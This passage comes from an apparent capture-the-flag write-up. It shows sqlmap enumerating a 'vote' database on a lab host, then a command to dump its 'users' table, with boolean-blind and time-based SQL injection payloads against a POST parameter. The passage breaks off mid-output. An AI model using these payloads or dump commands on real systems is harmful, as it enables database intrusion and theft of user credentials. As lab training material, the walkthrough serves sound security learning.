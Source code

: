 ```bash
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:52:02] [INFO] fetching tables for database: 'vote'
[11:52:04] [WARNING] the SQL query provided does not return any output
[11:52:04] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[11:52:06] [WARNING] the SQL query provided does not return any output
[11:52:06] [INFO] fetching number of tables for database 'vote'
[11:52:06] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:52:06] [INFO] retrieved: 2
[11:52:14] [INFO] retrieved: votes
[11:52:47] [INFO] retrieved: users
Database: vote
[2 tables]
+-------+
| users |
| votes |
+-------+

[11:53:28] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 11:53:28 /2025-08-13/
```

Let's dump the `users` table.

```bash
└─$ sqlmap -r req --batch -D vote -T users --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.6#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:37:59 /2025-08-13/

[23:37:59] [INFO] parsing HTTP request from 'req'
[23:38:00] [INFO] resuming back-end DBMS 'mysql' 
[23:38:00] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=5'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5901=5901 AND 'HaTg'='HaTg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND (SELECT 1771 FROM (SELECT(SLEEP(5)))Nfcz) AND 'egFU'='egFU

    Type: UNION query
```